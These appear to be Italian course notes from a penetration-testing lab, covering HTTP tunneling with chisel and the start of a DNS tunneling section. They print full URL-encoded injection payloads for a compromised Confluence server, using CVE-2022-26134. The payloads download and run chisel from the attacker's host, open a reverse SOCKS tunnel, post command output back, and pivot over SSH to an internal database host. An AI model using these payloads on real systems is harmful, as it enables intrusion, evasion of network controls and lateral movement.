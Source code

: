 # 19.1 HTTP Tunneling Theory and Practice

## 19.1.2 HTTP Tunneling with Chisel

Nel caso illustrato, abbiamo compromesso la 2 macchina e possono essere esguiti comandi tramite richieste HTTP. Tuttavia, è presente una soluzione DPI (Deep Packet Inspection) che nega tutto il traffico in uscita tranne quello HTTP. Inoltre, tutte le porte in entrata sulla 2 macchina vengono bloccate tranne la 8090. Non si può ne creare una reverse-shell ne eseguire port forwarding remoto SSH. 

Il firewall blocca tutto il traffico per la 3 macchina.

Abbiamo le credenziali per la 4 macchina.

![[HTTP_Tunneling_with_Chisel.png]]

In questo caso occorre utilizzare **chisel**, un tool che permette di fare HTTP tunneling incapsulando strem di dati tramite HTTP. Inoltre, utilizza anche il protocollo SSH tramite il tunnel, quindi i dati sono criptati. Questo utilizza un modello client/server è può essere utilizzato molti sistemi (windows, linux, macOS).

Potremmo lanciare un server chisel su kali (1 macchina) e un client chisel sulla 2 macchina.

![[HTTP_Tunneling_with_Chisel_2.png]]

Cerchiamo chisel su kali (1 macchina):

```bash
which chisel
```

E trasferiamolo sulla 2 macchina lanciando questo comando su kali (1 macchina):

(comando wget da integrare nel comando curl)

```bash
wget $IP_KALI:8080/chisel -O /tmp/chisel && chmod +x /tmp/chisel
```

```bash
curl http://$IP_2_MACCHINA:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20$IP_KALI:8080/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%2/0/tmp/chisel%27%29.start%28%29%22%29%7D
```

Ora che abbiamo chisel da entrambe le parti lanciamo questo comando su kali (1 macchina):

```bash
chisel server --port 8080 --reverse
```

Per osservare il traffico lanciamo questo comando su kali (1 macchina):

```
sudo tcpdump -nvvvXi tun0 tcp port 8080
```

Per avviare il client chisel sulla 2 macchina lanciamo questo comando su kali (1 macchina):

(comando wget da integrare nel comando curl)

```bash
/tmp/chisel client $IP_KALI:8080 R:socks > /dev/null 2>&1 &
```

```bash
curl http://$IP_2_MACCHINA:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20$IP_KALI:8080%20R:socks%27%29.start%28%29%22%29%7D/
```

Nel caso non dovesse funzionare, per poter capire il problema, bisognerebbe provare con questo comando:

(comando wget da integrare nel comando curl)

```bash
/tmp/chisel client $IP_KALI:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://$IP_KALI:8080/
```

```bash
curl http://$IP_2_MACCHINA:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20$IP_KALI:8080%20R:socks%20%26%3E%20/tmp/output%20%3B%20curl%20--data%20@/tmp/output%20http://$IP_KALI:8080/%27%29.start%28%29%22%29%7D/
```

L' errore è il seguente:

```bash
/tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32' not found (required by /tmp/chisel)/tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by /tmp/chisel) [|http]
```

Per risolverlo:

```bash
wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz

gunzip chisel_1.8.1_linux_amd64.gz

mv chisel_1.8.1_linux_amd64 chisel 
```

Ora bisogna trasferire questa versione di chisel sulla 2 macchina e farlo partire:

```bash
curl http://$IP_2_MACCHINA:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20$IP_KALI:8080/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%2/0/tmp/chisel%27%29.start%28%29%22%29%7D
```

```bash
curl http://$IP_2_MACCHINA:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20$IP_KALI:8080%20R:socks%20%26%3E%20/tmp/output%20%3B%20curl%20--data%20@/tmp/output%20http://$IP_KALI:8080/%27%29.start%28%29%22%29%7D/
```

Avviamo il servizio ssh sulla macchina kali (1 macchina):

```bash
sudo ss -ntplu
```

Ora la porta proxy SOCKS 1080 è in ascolto sull'interfaccia di loopback della Kali (1 macchina). Dobbiamo sfruttarlo per connetterci al server SSH della 3 macchina. Per farlo utilizziamo ncat:

```bash
sudo apt install ncat

ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@$IP_3_MACCHINA
```

Potrebbe essere utilizzando anche _proxychains_ modificando l'apposito file di configurazione.

# 19.2 DNS Tunneling Theory and Practice

## 19.2.1. DNS Tunneling Fundamentals

Funzionamento DNS:

![[DNS_Tunneling_Fundamentals.png]]

Nel caso illustrato abbiamo un nuovo server FELINEAUTHORITY (6 macchina) sulla WAN della nostra kali (1 macchina). Questo significa che MULTISERVER03 (3 macchina), CONFLUENCE01 (2 macchina), e la Kali (1 macchina) possono raggiungerlo, ma PGDATABASE01 (4 macchina) e HRSHARES (5 macchina) no.

La 6 macchina è registrata in questa rete come l'authoritative name server per la zona **feline.corp**. Potremmo utilizzarlo per vedere come i pacchetti DNS raggiungono un authoritative name server. In particolare, possiamo studiare come i pacchetti DNS sono scambiati tra la 4 macchina e la 6 macchina.

Ma la 4 macchina non può raggiungere direttamente la 6 macchina. Per farlo, potrebbe connettersi alla 3 macchina che tra l'altro è il suo server DNS resolver.

![[Pasted image 20240508161414.png]]

Come prima, compromettiamo la 2 macchina utilizzando CVE-2022-26134.